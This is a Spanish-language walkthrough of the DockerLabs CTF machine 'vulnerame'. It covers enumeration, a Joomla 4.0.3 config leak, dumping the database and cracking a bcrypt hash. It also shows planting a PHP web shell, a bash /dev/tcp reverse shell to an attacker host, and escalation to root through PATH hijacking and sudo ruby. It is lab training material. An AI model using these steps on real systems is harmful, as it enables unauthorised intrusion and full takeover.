



# vulnerame

Máquina "vulnerame" de [DockerLabs](https://dockerlabs.es)

Autor: [firstatack](https://firstatack.github.io/)

Dificultad: Dificil



## RECONOCIMIENTO

Comenzamos haciendo un escaneo de `nmap`:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 <ip> -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Tue Sep  3 21:00:26 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000011s latency).
Scanned at 2024-09-03 21:00:26 -03 for 10s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:a2:45:8c:a4:68:0d:8b:26:4e:46:ee:25:97:90:41 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC8Evq254UlzmMceOLmMU9NaNqP+YkqgDagmrsgXcSi/qccHUFZmr1R3XV8yMiDHElS3pj0RpTDabg/I0MhFRm4qZR2/b6WYtSL1WiNXeyvmi99VpK0D0qpB6KJErLtGoipRjgGCnruhKNi4slRMgFku3xHWbqxbE4LjOfmqMavYCStgeeYn9W/E7YngaVv7/xLegrjfdHcE66/Z2UaXBX3ijGGGGZF82B2fh7T30hdtoiCA5AUNJcCuDOZnGfdt29DjVdACzUq3RU40IJhtCRD7OttlacOcsuH0e0Cr1eOuDZQPhO9/6VicAI3g2r12YfTHz1RnnIABGmW74OThZ6YMaBWnrPHP4RPsMiDvuWkfthfC4dMeV+vmO1Naqdsxr3EGykbvC/ZmqFn2CNl2cFPg5/ZueB1KhuL5q+Q9EM78zAZt2w/U51YFts9Nd/SK2VZT9hJ8EziCvUPutKbssu6BSgXA9pFZeEZcJphqdCL0KXimTKiBN65z+fPrA8K960=
|   256 86:a6:49:14:82:83:02:56:cf:63:7c:44:6f:d9:d0:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL+aqYcjounR/Jvmbj+wlqQ7Qj9fMYrR5Wf10eRxEvw865MsIJsMmfUDGBV0jV12rKrSaeJJzBQ8wGxTF0AD9c8=
|   256 5a:a3:dc:67:7d:e1:d9:ca:13:2e:a8:7c:dc:38:df:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII6mMNbgNn5+qVx0MzenbOQpdptA7K7Q8D77dTOEpCYX
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 64 MySQL 8.0.37-0ubuntu0.20.04.3
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_8.0.37_Auto_Generated_Server_Certificate
| Issuer: commonName=MySQL_Server_8.0.37_Auto_Generated_CA_Certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-18T17:28:53
| Not valid after:  2034-07-16T17:28:53
| MD5:   2877:c72a:b311:92ef:caf5:98a2:7d91:e45c
| SHA-1: 132b:ee6d:0c58:c5c9:4235:e62b:b8c5:a7ef:ae5a:f825
| -----BEGIN CERTIFICATE-----
| MIIDBzCCAe+gAwIBAgIBAjANBgkqhkiG9w0BAQsFADA8MTowOAYDVQQDDDFNeVNR
| TF9TZXJ2ZXJfOC4wLjM3X0F1dG9fR2VuZXJhdGVkX0NBX0NlcnRpZmljYXRlMB4X
| DTI0MDcxODE3Mjg1M1oXDTM0MDcxNjE3Mjg1M1owQDE+MDwGA1UEAww1TXlTUUxf
| U2VydmVyXzguMC4zN19BdXRvX0dlbmVyYXRlZF9TZXJ2ZXJfQ2VydGlmaWNhdGUw
| ggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDOIRK97OYqB2aOBiQVkWqm
| 6r+jiqoysWgaFm4rtzlB+N4kDvp/YQNfw9bJ5fw2uEZ9/KiOxK/044vcTE4hOb5n
| uQCAzM1jiCnZ7CZBgWrlYcXLoT5Nz9vfU4jW6AvIIyMA23A9ER9FYJLAcXsLsEv+
| Y26oCzsOg8lUWyO79aS1V2pLXGSkDAy9uBQvvhmrwAeG9MfvbfpGNuNfTzoqayLI
| f1yrCIzevCGWVOQBgAl+ST15T52ooQpwhYXa5eCupPT3F4PkGgbgYswdMJMukgG0
| 17P1lB/0Qsc5+ZhFuyLF5a7NWSlw2CFVBD5RP9OVvuDsryHsPqMU/GKpYZl/PHrr
| AgMBAAGjEDAOMAwGA1UdEwEB/wQCMAAwDQYJKoZIhvcNAQELBQADggEBADLI3vp7
| BaPMBBOQrr0KsIkRDXLJXu2TVvZlyYmKCuJCNFiXlvWK9TX9Usqgrvu+9+GcV850
| +dzB12uuS/AWgbUf7QSlfpFJfrMJhgGdm277f46iujIkS5YR7NBvK6pjjM+PQdqo
| XNTexGGBac3NHq57j8mwuCU/WjWvv2SlhFV98gbeR8iPvPgalrDuTKh/ylRJZ7io
| ZIxcKEljqTffVvKwzAivJZfZ1r/4oAkx52lH75Lt1fGng8AA03nkXIyR1NhoYj9t
| LDhLCrEdG5MjtEfflINtIPY6KkKNQWHxUGH3PGagoPLrRrQuLSelOu5gJgVdHja8
| yt5uGHSPB5EHmAU=
|_-----END CERTIFICATE-----
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.37-0ubuntu0.20.04.3
|   Thread ID: 11
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, LongPassword, ConnectWithDatabase, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsCompression, SupportsTransactions, IgnoreSigpipes, InteractiveClient, SupportsLoadDataLocal, SwitchToSSLAfterHandshake, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, ODBCClient, LongColumnFlag, FoundRows, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: XT\x0F[EGy\x7FvoDmPTeK98#x
|_  Auth Plugin Name: caching_sha2_password
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  3 21:00:36 2024 -- 1 IP address (1 host up) scanned in 10.05 seconds
```

Como vemos, los puertos abiertos son:

`22: OpenSSH`

`80: Apache httpd`

`3306: mysql`

Luego de ir a la web vemos la página predeterminada de apache, por lo que podriamos usar gobuster para ver si encontramos algo:

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10918]
/.html                (Status: 403) [Size: 275]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
Progress: 72924 / 882244 (8.27%)
===============================================================
Finished
===============================================================
```

el directorio `/javascript/` está en 403 forbidden por lo que lo dejamos, pero el directorio `/wordpress/` si tiene cosas interesantes:



al parecer dice que es un `joomla` en un directorio llamado `wordpress`, por lo que podemos acudir a usar la herramienta `joomscan` de la siguiente manera:

```css
joomscan -u "http://<ip>/wordpress/"           
```

```css

    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://172.17.0.2/wordpress/ ...



[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.0.3

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://172.17.0.2/wordpress/administrator/components
http://172.17.0.2/wordpress/administrator/modules
http://172.17.0.2/wordpress/administrator/templates
http://172.17.0.2/wordpress/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://172.17.0.2/wordpress/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://172.17.0.2/wordpress/robots.txt 

Interesting path found from robots.txt
http://172.17.0.2/wordpress/joomla/administrator/
http://172.17.0.2/wordpress/administrator/
http://172.17.0.2/wordpress/api/
http://172.17.0.2/wordpress/bin/
http://172.17.0.2/wordpress/cache/
http://172.17.0.2/wordpress/cli/
http://172.17.0.2/wordpress/components/
http://172.17.0.2/wordpress/includes/
http://172.17.0.2/wordpress/installation/
http://172.17.0.2/wordpress/language/
http://172.17.0.2/wordpress/layouts/
http://172.17.0.2/wordpress/libraries/
http://172.17.0.2/wordpress/logs/
http://172.17.0.2/wordpress/modules/
http://172.17.0.2/wordpress/plugins/
http://172.17.0.2/wordpress/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/172.17.0.2/
]
```

si revisamos el robots.txt no hay nada interesante pero vemos que la versión es la `4.0.3` por lo que podemos buscar si hay algún exploit.

Yo encontré este: [exploit](https://github.com/Pushkarup/CVE-2023-23752)

Para poder usar el exploit hay que ejecutar lo siguiente:

```css
curl "http://172.17.0.2/wordpress/api/index.php/v1/config/application?public=true"
```

Aunque realmente no es necesario usar el exploit ya que esto ya nos revela un usuario y contraseña:

```css
{"user":"joomla_user"}:{"password":"vuln"}
```

Ahora si intentamos meter las credenciales que conseguimos en el panel de `/administrator/`, veremos que no nos deja entrar ya que son incorrectas, pero si recordamos el escaneo, hay una base de datos mysql a la cual nos podemos conectar. Sabiendo esto y teniendo unas credenciales, podemos probar conectarnos de esta manera:

```css
mysql -h 172.17.0.2 -P 3306 -u joomla_user -p
```

y cuando nos pida una contraseña ponemos "vuln"

Ahora vamos a intentar leer la base de datos, para esto ejecutamos lo siguiente:

```css
show databases;
```

Esto nos mostrará las bases de datos:

```css
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla_db          |
| performance_schema |
+--------------------+
3 rows in set (0,004 sec)
```

ahora ejecutamos `use joomla_db;` para seleccionar la base de datos del joomla.

Luego ejecutamos `show tables;` para mostrar las tablas de las bases de datos:

```css
+-------------------------------+
| Tables_in_joomla_db           |
+-------------------------------+
| ffsnq_action_log_config       |
| ffsnq_action_logs             |
| ffsnq_action_logs_extensions  |
| ffsnq_action_logs_users       |
| ffsnq_assets                  |
| ffsnq_associations            |
| ffsnq_banner_clients          |
| ffsnq_banner_tracks           |
| ffsnq_banners                 |
| ffsnq_categories              |
| ffsnq_contact_details         |
| ffsnq_content                 |
| ffsnq_content_frontpage       |
| ffsnq_content_rating          |
| ffsnq_content_types           |
| ffsnq_contentitem_tag_map     |
| ffsnq_extensions              |
| ffsnq_fields                  |
| ffsnq_fields_categories       |
| ffsnq_fields_groups           |
| ffsnq_fields_values           |
| ffsnq_finder_filters          |
| ffsnq_finder_links            |
| ffsnq_finder_links_terms      |
| ffsnq_finder_logging          |
| ffsnq_finder_taxonomy         |
| ffsnq_finder_taxonomy_map     |
| ffsnq_finder_terms            |
| ffsnq_finder_terms_common     |
| ffsnq_finder_tokens           |
| ffsnq_finder_tokens_aggregate |
| ffsnq_finder_types            |
| ffsnq_history                 |
| ffsnq_languages               |
| ffsnq_mail_templates          |
| ffsnq_menu                    |
| ffsnq_menu_types              |
| ffsnq_messages                |
| ffsnq_messages_cfg            |
| ffsnq_modules                 |
| ffsnq_modules_menu            |
| ffsnq_newsfeeds               |
| ffsnq_overrider               |
| ffsnq_postinstall_messages    |
| ffsnq_privacy_consents        |
| ffsnq_privacy_requests        |
| ffsnq_redirect_links          |
| ffsnq_schemas                 |
| ffsnq_session                 |
| ffsnq_tags                    |
| ffsnq_template_overrides      |
| ffsnq_template_styles         |
| ffsnq_ucm_base                |
| ffsnq_ucm_content             |
| ffsnq_update_sites            |
| ffsnq_update_sites_extensions |
| ffsnq_updates                 |
| ffsnq_user_keys               |
| ffsnq_user_notes              |
| ffsnq_user_profiles           |
| ffsnq_user_usergroup_map      |
| ffsnq_usergroups              |
| ffsnq_users                   |
| ffsnq_viewlevels              |
| ffsnq_webauthn_credentials    |
| ffsnq_workflow_associations   |
| ffsnq_workflow_stages         |
| ffsnq_workflow_transitions    |
| ffsnq_workflows               |
+-------------------------------+
69 rows in set (0,004 sec)
```

ahora leeremos la tabla `ffsnq_users`, para hacerlo ejecutamos:

```css
select*from ffsnq_users;
```

Ahora tenemos un usuario y una contraseña hasheada:

```css
firstatack:$2y$10$UVmUci/wKgu7LFir7KIzP.NDup3lYDUxPzz7WZryvEYVdUjUVhou.
```

Para poder obtener la contraseña en texto plano (crackearla) usaremos `john`, para hacerlo meteremos el hash en un archivo, y luego ejecutaremos lo siguiente:

```css
john --wordlist=<wordlist> hash
```

```apl
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:26 DONE (2024-09-03 21:22) 0.03721g/s 52.25p/s 52.25c/s 52.25C/s kelvin..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ahora si tenemos un usuario y contraseña para el joomla:

```css
firstatack:tequieromucho
```

## INTRUSION

Estando en el joomla, iremos a `system > Templates > Site Templates > Cassiopeia Details and Files`. Ahora editamos el "index.php" y agregamos la siguiente línea luego de los comentarios:

```php
system($_GET['cmd']);
```

Ahora vamos a `/wordpress/` y en la url ponemos lo siguiente:

```css
?cmd=bash -c 'bash -i >%26 /dev/tcp/<ip>/<puerto> 0>%261' #claramente reemplaza la ip por la tuya al igual que al puerto
```

deberia quedar asi:

```css
http://172.17.0.2/wordpress/?cmd=bash -c 'bash -i >%26 /dev/tcp/<ip>/<puerto> 0>%261'
```

Ahora escuchamos con el netcat en el puerto que elegímos, lo mandamos desde el navegador y **ya estamos dentro**.

## ESCALADA DE PRIVILEGIOS

Antes de hacer algo haremos el tratamiento de la tty, para hacerlo ejecutamos estos comandos:

```css
script /dev/null -c bash # Lo ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Lo ejecutamos y escribimos "reset xterm", luego enter
export TERM=xterm && export SHELL=bash
```

#### www-data

Ahora si vamos a la carpeta `/home` veremos que podemos leer la carpeta de el usuario "guadalupe". Si nos fijamos hay una carpeta llamada "-", la cual tiene una contraseña en base64:

```css
UEsDBAoAAAAAANCN8FghMhsnBwAAAAcAAAAIABwAcGFzcy50eHRVVAkAAyfclmYn3JZmdXgLAAEE
6AMAAAToAwAAc2hlZW5hClBLAQIeAwoAAAAAANCN8FghMhsnBwAAAAcAAAAIABgAAAAAAAEAAACk
gQAAAABwYXNzLnR4dFVUBQADJ9yWZnV4CwABBOgDAAAE6AMAAFBLBQYAAAAAAQABAE4AAABJAAAA
AAA=
```

la cual si la pasamos a texto tenemos la contraseña "sheena". Escalamos con `su guadalupe` y poniendo la contraseña.

#### Guadalupe

Si ejecutamos un `sudo -l` veremos que podemos ejecutar un script en `/usr/bin/scr1pt` como el usuario "ignacio", el cual no podemos leer pero si lo ejecutamos dice esto:

```css
/usr/bin/scr1pt: line 6: /snap/bin/ls: No such file or directory
```

Ahora creamos un script llamado "ls" en `/snap/bin/` con el siguiente contenido:

```css
#!/bin/bash

bash -p
```

luego le damos permisos con `chmod +x /snap/bin/ls` y ya solo nos queda ejecutarlo para escalar a "ignacio".

#### Ignacio

Si ejecutamos un `sudo -l` veremos esto:

```css
Matching Defaults entries for ignacio on 930c8e7fe4ce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ignacio may run the following commands on 930c8e7fe4ce:
    (ALL : ALL) NOPASSWD: /usr/bin/ruby /usr/bin/saludos.rb
```

si buscamos en [GTFOBins](https://gtfobins.github.io/gtfobins/ruby/#sudo) podemos ver que se puede escalar con esto:

```css
sudo ruby -e 'exec "/bin/bash"'
```

pero nosotros editaremos el archivo "saludos.rb" y en el final agregaremos esto:

```ruby
exec "/bin/bash"
```

luego lo guardamos y al ejecutarlo con sudo **ya habremos ganado acceso root**.



Gracias por leer.
